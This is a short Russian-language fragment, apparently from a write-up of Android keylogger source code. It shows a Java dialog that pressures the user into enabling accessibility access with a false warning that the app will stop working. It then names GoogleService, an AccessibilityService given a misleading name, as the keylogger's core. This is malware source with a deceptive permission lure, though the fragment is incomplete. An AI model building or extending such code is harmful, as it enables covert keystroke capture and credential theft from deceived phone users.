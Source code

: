 ![](/assets/images/alert_window.png)

```java
public static void openSettings(final Context ctx) {
AlertDialog alertDialog = new AlertDialog.Builder(ctx).create();
alertDialog.setTitle("Alert");
alertDialog.setMessage("Please enable app in settings! Otherwise it will stop working");
alertDialog.setButton(AlertDialog.BUTTON_NEUTRAL, "Settings",
	new DialogInterface.OnClickListener() {
	    public void onClick(DialogInterface dialog, int which) {
		ctx.startActivity(new Intent("android.settings.ACCESSIBILITY_SETTINGS"));
	    }
	});
alertDialog.show();
}
```
```GoogleService``` - основная логика кейллогера. Является AccessibilityService:

```java
public class GoogleService extends AccessibilityService {
```
